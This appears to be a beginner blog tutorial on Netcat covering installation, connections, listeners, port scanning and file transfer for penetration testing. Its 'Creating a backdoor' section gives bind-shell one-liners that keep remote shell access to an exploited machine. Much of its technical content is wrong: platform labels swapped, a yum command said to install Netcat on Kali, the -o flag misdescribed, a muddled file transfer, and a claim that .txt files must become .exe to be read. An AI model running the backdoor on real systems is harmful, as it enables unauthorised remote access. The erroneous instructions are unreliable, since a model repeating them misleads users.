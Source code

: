 ### Introduction
Netcat is a network analysis tool developed for security specialists and hackers to analyze a network in traffic.

It is considered a `swiss-army knife` in information technology due to its limitless opportunities like the ability to create almost any kind of network connection.

At its early stages, netcat was developed to open up UDP/TCP connections between two machines from any desired port.

Over time, it has been improved and now it is used for port scanning, port forwarding, file transfer, and also remote administration. This article will help us understand how Netcat performs these operations.

Netcat can further be used as a back-end device that can be used or driven by other programs or scripts.

It is also a must-have tool for pen-tester since it is essential for network debugging and investigation.

### Goals
In this tutorial, we will mainly focus on the following:
- [Executing general Netcat commands](#executing-commands-on-netcat)
- [Modes of running Netcat](#modes-of-running-netcat)
- [Uses of Netcat](#uses-of-netcat)

### Installing Netcat
First before we start playing around with Netcat, lets make sure it is installed in your computer or working machine. It is usualy pre-installed in Kali Linux but if that is not the case in your machine, we are going to learn how to install Netcat.

1. Open your bash terminal by simultaneously holding `ctrl`+`alt`+`T` buttons.
2. Make sure you have an internet connection.
3. Run the command below to install Netcat.
  ```
    yum update -y
  ```
  This command will install Netcat on your Kali Linux.
  
4. To confirm if the installation was succesful, we can scan google to see if we can reach it. For the case we have checked the version of Netcat and connection of googl on port 8080
```
  nc -vz google.com 8080
```

### Executing commands on Netcat
Netcat is only available in the command-line interface. You can access Netcat on the `command line` on Windows and `bash terminal` on Linux.

Below is the common Netcat command syntax:

```bash
nc [options][target_ip address][port]
```

Now, let's discuss some actions that can be executed via Netcat.

#### 1. Help
To start with, you might want to know the commands you will interact with in your Netcat journey. Run the `nc -help` or `nc -h` command to list all the commands available in Netcat as shown below.

![Help Command Output](/engineering-education/introduction-to-netcat/help.png)

#### 2. Connecting Server
To achieve this, you have to access a port where a particular service is running and execute the code linking it with the Netcat commands.

The syntax is as shown below.

```bash
nc [IP Address] [Port Number] # for both the target machine.
```

Example:

```bash
nc 192.168.234.128 8080
```

In the example above, we have connected the internet accessing service via port number `8080` with the IP address `192.168.234.128`.

#### 3. Connecting two machines
To do this, we will have to set one device as the **Initiator** and the other device as the **Listener**. In our case, we will use Kali Linux as the initiator and the Windows machine as the listener.

**Creating the listener** - First, let's create the listening Machine which in our case is Windows 10. To successfully do so, run the following Netcat command:

```bash
nc -lvp 4444
```

In the command above:

- `l` - Setting up listening mode.
- `v` - Setting verbose.
- `p` - Setting up port number.

**Creating the initiator** - Creating the initiator is simple as you only need to run the IP address of the listening machine followed by the port number.

See the example is as shown below.

```bash
nc 192.168.234.128 8080
```

#### 4. Creating a backdoor
After getting a Meterpreter shell back or successfully exploiting a device, you might need to maintain your access so you can get back to the target device at any time. With Netcat, you can run a one-line command to achieve this. This is called creating a backdoor.

For Windows, use: `nc -l -p 21 -e /bin/bash`

For Linux use: `nc -l -p 21 -e hack.exe`

#### 5. Saving output
Information gathering is one of the most important fundamentals in penetration testing. To save the information gathered as the output from Netcat, we will use the parameter `-o` followed by the location to save the output as shown below.

```bash
nc 192.168.234.128 8080 -v -o /Desktop/Output.txt
```

### Modes of running Netcat
We have two common modes of running Netcat:

1. **Client mode/ initiator mode**

As we discussed earlier, the client or initiator mode always starts the connection to the listener.

2. **Listener Mode**

To set up the listener, we need the `port` number. The command also contains the `listening` and `verbose` commands.

### Uses of Netcat
1. **Port Scanning**

For every hacker or penetration tester, before performing any attack, you need to spot weak links or vulnerabilities in a target system. There are several ways to achieve this and one of them is `port scanning`.

Port scanning is the act of running a network analysis on a system to determine open or closed ports on a specific target machine.

This can be done by specifying the IP address of the target machine and setting up some parameters as shown in the syntax below.

```bash
nc -v -w2 -z [target_ip] 20-40
```

From the example above, the parameters are set to perform the following actions.

- `v` - **Verbose** means to give detailed information about the port being scanned.
- `z` - Prevents sending data to any TCP thus enabling fast scanning of ports.
- `i` - It inserts a delay between each port probe to limit scanning speed.

Even though Netcat can be used for Port scanning, it is however not the top-ranked tool for port scanning. The recommended tool is [NMAP](https://www.section.io/engineering-education/nmap-network-scanner/).

2. **Data/ File transfer**

After successfully exploiting a target machine and you have control over it, you may need Netcat for the post-exploitation phase. This is where you remotely run commands on the target machine using your local machine.

In some cases, you may want to transfer files or some data into the local machine which is mostly a Kali Linux machine since it is the recommended OS for penetrating testing.

To learn more about Kali Linux, go through [this article](https://www.section.io/engineering-education/getting-started-with-kali-linux/).

The example below explains how to transfer files using Netcat.

Let's take a sample text file named `test.txt` which in this case is in our targets device storage. To transfer the file into our local machine, run the Netcat command below on the target device either remotely or physically.

This is to purposefully set up a listener on the target device.

```bash
nc –l –p 21 >test.txt
```

In the command above, we have specified the port number 21 by preceding the `-p` command which is used to initialize the port number.

We have also set up the machine to the listening mode by using the `-l` command.

After successfully setting up a listener, we can therefore set up an initiator on our local machine by running the following command.

```bash
nc destination 21 <test.txt
```

By now, you may have noticed that we have set up client mode to connect to any listener open on port 21. We have to state the `destination` of our initiator by providing the listening port number and the name of the file to transfer.

To show the output of what is contained in the file, run the `type` command on Windows and the `echo` command on Kali Linux.

```bash
type test.txt
```

For Kali Linux, you will have to convert the `.txt` file to executable format `.exe` since Kali Linux cannot run Windows files with the `.txt` extension.

```bash
echo test.exe
```

### Conclusion
From what we have learned, we can agree that Netcat is a must-have tool for a penetration tester. It is easy to learn and allows execution of a wide range of actions as mentioned in this tutorial. Netcat is therefore recommended for penetration testing.
